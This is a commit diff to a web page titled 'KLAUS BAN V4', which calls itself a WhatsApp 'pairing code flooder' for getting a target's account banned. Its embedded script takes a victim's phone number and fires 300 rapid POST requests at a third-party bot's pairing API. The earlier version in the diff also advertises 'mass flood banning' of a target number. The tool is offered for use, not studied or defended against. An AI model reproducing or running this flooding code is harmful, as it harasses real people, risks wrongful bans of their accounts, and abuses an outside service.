

Before and after one commit to dorcocremasgusto-bit/-DevArth-Bot-Backend, a website: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (203-1075 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,59 +3,247 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>KLAUS BAN V3</title>
-    <link rel="stylesheet" href="style.css">
-    <link href="https://fonts.googleapis.com/css2?family=Share+Tech+Mono&display=swap" rel="stylesheet">
+    <title>KLAUS BAN V4</title>
+    <style>
+        /* CSS Démoniaque Néon Noir/Rouge */
+        @import url('https://fonts.googleapis.com/css2?family=Cinzel:wght@700&family=Orbitron:wght@400;700&display=swap');
+
+        * { box-sizing: border-box; margin: 0; padding: 0; }
+
+        body {
+            background-color: #050000;
+            color: #ff0000;
+            font-family: 'Orbitron', sans-serif;
+            display: flex;
+            justify-content: center;
+            align-items: center;
+            min-height: 100vh;
+            overflow-x: hidden;
+            background-image: radial-gradient(circle at center, #1a0000 0%, #000000 100%);
+        }
+
+        .container {
+            width: 90%;
+            max-width: 500px;
+            background: rgba(0, 0, 0, 0.95);
+            border: 2px solid #ff0000;
+            border-radius: 15px;
+            padding: 40px 20px;
+            box-shadow:
+                0 0 20px #ff0000,
+                0 0 40px #ff0000 inset,
+                0 0 60px #8b0000;
+            text-align: center;
+            position: relative;
+            z-index: 1;
+        }
+
+        h1 {
+            font-family: 'Cinzel', serif;
+            font-size: 2.5rem;
+            margin-bottom: 10px;
+            text-transform: uppercase;
+            letter-spacing: 3px;
+            text-shadow:
+                0 0 10px #ff0000,
+                0 0 20px #ff0000,
+                0 0 40px #ff0000;
+            animation: flicker 1.5s infinite alternate;
+        }
+
+        p.subtitle {
+            color: #cc0000;
+            font-size: 0.9rem;
+            margin-bottom: 30px;
+            opacity: 0.8;
+        }
+
+        .input-group { margin-bottom: 20px; text-align: left; }
+
+        label {
+            display: block;
+            margin-bottom: 8px;
+            font-size: 0.9rem;
+            color: #fff;
+            text-shadow: 0 0 5px #ff0000;
+        }
+
+        input[type="text"] {
+            width: 100%;
+            padding: 15px;
+            background: #0a0a0a;
+            border: 1px solid #ff0000;
+            color: #fff;
+            font-family: 'Orbitron', sans-serif;
+            font-size: 1.1rem;
+            border-radius: 8px;
+            outline: none;
+            transition: all 0.3s ease;
+            box-shadow: 0 0 10px #330000 inset;
+        }
+
+        input:focus {
+            border-color: #ff3333;
+            box-shadow: 0 0 20px #ff0000 inset, 0 0 15px #ff0000;
+        }
+
+        button {
+            width: 100%;
+            padding: 15px;
+            background: linear-gradient(45deg, #8b0000, #ff0000);
+            border: none;
+            color: white;
+            font-family: 'Cinzel', serif;
+            font-size: 1.2rem;
+            cursor: pointer;
+            border-radius: 8px;
+            box-shadow: 0 0 20px #ff0000;
+            transition: transform 0.2s, box-shadow 0.2s;
+            text-transform: uppercase;
+            letter-spacing: 2px;
+            margin-top: 10px;
+        }
+
+        button:hover {
+            transform: scale(1.02);
+            box-shadow: 0 0 40px #ff0000;
+            background: linear-gradient(45deg, #ff0000, #ff4d4d);
+        }
+
+        button:disabled {
+            background: #333;
+            box-shadow: none;
+            cursor: not-allowed;
+            color: #666;
+        }
+
+        #status {
+            margin-top: 20px;
+            min-height: 100px;
+            text-align: left;
+            background: #000;
+            border: 1px solid #330000;
+            padding: 10px;
+            font-size: 0.85rem;
+            color: #ff4d4d;
+            max-height: 200px;
+            overflow-y: auto;
+            border-radius: 5px;
+            font-family: monospace;
+        }
+
+        .log-entry { margin-bottom: 5px; border-bottom: 1px solid #220000; padding-bottom: 2px; }
+        .success { color: #00ff00; text-shadow: 0 0 5px #00ff00; }
+        .error { color: #ff0000; text-shadow: 0 0 5px #ff0000; }
+
+        footer {
+            margin-top: 30px;
+            font-size: 0.8rem;
+            color: #660000;
+            border-top: 1px solid #330000;
+            padding-top: 10px;
+        }
+
+        @keyframes flicker {
+            0%, 18%, 22%, 25%, 53%, 57%, 100% {
+                text-shadow: 0 0 10px #ff0000, 0 0 20px #ff0000, 0 0 40px #ff0000;
+                opacity: 1;
+            }
+            20%, 24%, 55% { text-shadow: none; opacity: 0.5; }
+        }
+
+        ::-webkit-scrollbar { width: 8px; }
+        ::-webkit-scrollbar-track { background: #000; }
+        ::-webkit-scrollbar-thumb { background: #ff0000; border-radius: 4px; }
+    </style>
 </head>
 <body>
-    <div class="crt-overlay"></div>
+
     <div class="container">
-        <header>
-            <h1 class="glitch" data-text="KLAUS BAN V3">KLAUS BAN V3</h1>
-            <p class="subtitle">WHATSAPP MASS FLOOD BANNING SYSTEM</p>
-        </header>
+        <h1>KLAUS BAN V4</h1>
+        <p class="subtitle">Pairing Code Flooder Protocol</p>
 
-        <div class="terminal-window">
-            <div class="terminal-header">
-                <span class="dot red"></span>
-                <span class="dot yellow"></span>
-                <span class="dot green"></span>
-                <span>root@klaus-dev:~</span>
-            </div>
+        <div class="input-group">
+            <label for="phoneNumber">Numéro WhatsApp (ex: 212600000000)</label>
+            <input type="text" id="phoneNumber" placeholder="Ex: 212600000000">
+        </div>
 
-            <div class="input-group">
-                <label for="phoneNumber">TARGET NUMBER (E.g. 33612345678)</label>
-                <input type="text" id="phoneNumber" placeholder="+33 6 12 34 56 78" autocomplete="off">
-            </div>
+        <button id="startBtn" onclick="startBan()">LANCER LE BANNISSAGE</button>
 
-            <button id="startBtn" onclick="launchBan()">INITIATE BANNING SEQUENCE</button>
-
-            <div class="status-panel">
-                <div class="stat-box">
-                    <span>STATUS:</span>
-                    <span id="statusText">IDLE</span>
-                </div>
-                <div class="stat-box">
-                    <span>SENT:</span>
-                    <span id="countDisplay">0 / 300</span>
-                </div>
-                <div class="stat-box">
-                    <span>TIME REMAINING:</span>
-                    <span id="timeDisplay">03:00</span>
-                </div>
-            </div>
-
-            <div class="log-console" id="logConsole">
-                <div>> System ready.</div>
-                <div>> Waiting for target...</div>
-            </div>
-        </div>
+        <div id="status">En attente...</div>
 
         <footer>
             Create By Klaus Dev
         </footer>
     </div>
 
-    <script src="script.js"></script>
+    <script>
+        const API_URL = "https://kizumi-md-zmfb.onrender.com/api/pair";
+
+        async function startBan() {
+            const phoneInput = document.getElementById('phoneNumber').value.trim();
+            const statusDiv = document.getElementById('status');
+            const btn = document.getElementById('startBtn');
+
+            if (!phoneInput) {
+                log("Veuillez entrer un numéro.", "error");
+                return;
+            }
+
+            statusDiv.innerHTML = "";
+            btn.disabled = true;
+            btn.innerText = "BANNISSAGE EN COURS...";
+
+            let successCount = 0;
+            let failCount = 0;
+
+            // Boucle 300 fois
+            for (let i = 1; i <= 300; i++) {
+                try {
+                    // Envoi des données exactes demandées par le bot KIZUMI MD
+                    const response = await fetch(API_URL, {
+                        method: 'POST',
+                        headers: {
+                            'Content-Type': 'application/json',
+                        },
+                        body: JSON.stringify({ number: phoneInput, method: 'code' })
+                    });
+
+                    if (response.ok) {
+                        const data = await response.json();
+                        // Si le bot retourne déjà un code ou un statut, on l'affiche
+                        log(`[${i}/300] Succès: ${data.code || data.message || 'OK'}`, "success");
+                        successCount++;
+                    } else {
+                        log(`[${i}/300] Erreur HTTP: ${response.status}`, "error");
+                        failCount++;
+                    }
+
+                } catch (error) {
+                    log(`[${i}/300] Erreur Réseau: ${error.message}`, "error");
+                    failCount++;
+                }
+
+                // Délai ultra-court pour rapidité
+                if (i < 300) {
+                    await new Promise(r => setTimeout(r, 50));
+                }
+            }
+
+            btn.disabled = false;
+            btn.innerText = "LANCER LE BANNISSAGE";
+            log("--- RÉSULTAT FINAL ---", "success");
+            log(`Tentatives: 300 | Succès: ${successCount} | Échecs: ${failCount}`);
+        }
+
+        function log(message, type = "") {
+            const statusDiv = document.getElementById('status');
+            const div = document.createElement('div');
+            div.className = `log-entry ${type}`;
+            div.innerText = message;
+            statusDiv.appendChild(div);
+            statusDiv.scrollTop = statusDiv.scrollHeight;
+        }
+    </script>
 </body>
 </html>
```
